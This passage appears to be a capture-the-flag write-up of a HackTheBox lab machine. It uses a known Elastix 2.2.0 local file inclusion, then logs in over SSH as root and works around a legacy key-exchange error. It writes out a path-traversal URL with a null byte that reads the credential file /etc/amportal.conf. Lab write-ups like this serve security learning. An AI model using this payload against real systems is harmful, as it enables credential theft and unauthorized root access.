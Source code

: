 now we are using a different exploit for this


Elastix 2.2.0 - 'graph.php' Local File Inclusion          | php/webapps/37637.pl


If we visiting the path mentioned in code


ttps://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

we see that it is vulnerable



now as per the writeup


we should be able to log into the machine with ssh to root with and admin password we found in above directory but i was getting an error

──(root💀kali)-[~/Desktop/THM/beep]
└─# ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1



then this error

```
Unable to negotiate with 10.10.10.7 port 22: no matching host key type found. Their offer: ssh-dss
```


okay so did some torubleshotting and found this resource


https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss


the third answer did it for me, didnt add the permanant solution only temp






